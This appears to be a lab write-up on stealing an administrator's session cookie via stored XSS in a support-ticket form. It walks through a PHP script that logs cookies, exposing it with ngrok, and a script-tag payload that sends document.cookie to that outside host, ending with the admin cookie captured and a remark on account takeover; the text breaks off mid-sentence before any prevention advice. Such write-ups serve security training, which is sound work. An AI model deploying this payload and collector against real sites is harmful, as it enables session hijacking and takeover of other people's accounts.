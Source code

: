 We are giving a website with 2 users

**_A normal user page :_**


![](https://i.imgur.com/SeBIL1f.png)



**_An admin page_**



![](https://i.imgur.com/xcjIfUR.png)


**The task here is to steal the Admin cookie via stored xss, so we can automatically be logged in as admin**

## **Understanding the flow**


- Starting with a basic XSS payload i wanted to understand the flow of this application, so i sent our payload to the **Admin** via the support ticket page of the normal user

![](https://i.imgur.com/THMNNRs.png)

- Navigating to the admin page and refreshing it, we truly have stored XSS

![](https://i.imgur.com/0mXRLZ1.png)



## **Preparing our Exploit**


- First of all since we will be using **Ngrok** as our server, we need to create a Script that will take the logs of our admin and save it to a `.txt` file every time he tries to login or refresh his browser made by [@Ravid11345277](https://twitter.com/Ravid11345277). As seen below we can save this PHP code in our file system with the extension `.php`

```PHP
<?php

$ip=$_SERVER['HTTP_X_FORWARDED_FOR'];
$ua=$_SERVER['HTTP_USER_AGENT'];


$fp=fopen('cookies.txt' , 'a+');

fwrite($fp, $ip.' '.$ua."\n");
fwrite($fp, urldecode($_SERVER['QUERY_STRING']). " \n\n");
fclose($fp);

?>
```



- Now start up your **Ngrok** server with the following command, where the `PHP` file was saved

```bash
$ ngrok http 80
```



![](https://i.imgur.com/PNGlTEU.png)


- Navigating to the normal user page we can craft the XSS payload that will steal the **Admin** user cookies by sending them to a remote server, which in this case is the `xss.php` file we created :

```js
<script> var i=new Image(); i.src="<NGROK-LINK-GOES-HERE>/xss.php?cookie="+document.cookie;</script>
```

- But just before we do anything let confirm if our **Ngrok** server is working by copying the forwarding link and calling the `PHP` file we created then, so your link should look like this

```
https://52c8-102-89-32-48.ngrok-free.app/{filename}.php
```

![](https://i.imgur.com/klOJ6Lz.png)


> **Note :** I added the `?test` parameter so i will see if it works when i navigate to `cookies.txt`

- Booyah, Navigating to `/cookies.txt` we can see our server is up and running, **P.N :** I blocked my public IP, you should know why 😆 

![](https://i.imgur.com/snNWgvj.png)



## **Launching Our Exploit**

Since we know things are good to go, we can take our malicious XSS payload and attempt to get the **admin** cookie in `/cookies.txt`

- Copy your malicious XSS payload and make sure to replace the `NGROK-LINK-GOES-HERE` with the right **Ngrok** server link, then we can **Submit** it to the **Admin**

```js
<script> var i=new Image(); i.src="<NGROK-LINK-GOES-HERE>/xss.php?admin_cookie="+document.cookie;</script>
```

![](https://i.imgur.com/BFAUqoa.png)


- Navigating to the **Admin** page, we can refresh the page and we have `test 2` created already

![](https://i.imgur.com/YrVmwf6.png)


- Referring back to `/cookies.txt` we have our admin cookie dumped

![](https://i.imgur.com/MbMCQdE.png)

This doesn't only affect the admin user, every user cookie will automatically be dumped once there is a page refresh and we have an account takeover right there, there are various ways to prevent this kind of attacks includi
![](https://media.giphy.com/media/i3ikTK3ZwBy4uUH1Ot/giphy.gif)


